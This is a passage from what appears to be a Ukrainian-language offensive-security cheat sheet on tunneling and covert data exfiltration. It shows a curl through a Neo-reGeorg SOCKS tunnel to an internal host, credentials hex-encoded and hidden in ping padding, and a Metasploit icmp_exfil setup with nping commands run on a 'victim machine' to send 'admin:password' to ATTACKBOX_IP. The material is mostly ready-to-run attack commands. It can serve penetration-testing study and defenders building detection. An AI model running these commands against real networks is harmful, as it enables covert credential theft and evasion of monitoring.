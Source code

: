 ```
curl --socks5 127.0.0.1:1080 http://172.20.0.121:80
```
Neo-reGeorg форвардить трафік через локальний SOCKS, curl піде тунелем, якщо сам тунель активний і віддалений агент має доступ до цільової адреси, ми отримаємо доступ до внутрішніх ресурсів.

## 📡 12. Ping

За допомогою аргумента -p ми можемо вказати 16 байтів даних у шістнадцятковому представленні для надсилання через пакет.

```
echo "admin:password" | xxd -p 
61646d696e3a70617373776f72640a
```
після цього 

```
ping 10.10.126.240 -c 1 -p 61646d696e3a70617373776f72640a
```

## 📡 13. Metasploit

Встановіть BPF_FILTER у msf5 на атакері
```
msf5 > use auxiliary/server/icmp_exfil
msf5 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src ATTACKBOX_IP
BPF_FILTER => icmp and not src ATTACKBOX_IP
```
налаштувати на відповідний мережевий інтерфейс
```
msf5 auxiliary(server/icmp_exfil) > set INTERFACE eth0
INTERFACE => eth0
msf5 auxiliary(server/icmp_exfil) > run
```
На машині жертви запустити тригер
```
sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "BOFfile.txt"
```
після цього надсилаємо дані
```
sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin:password"
```
по завершенню
```
sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "EOF"
```












-------------------
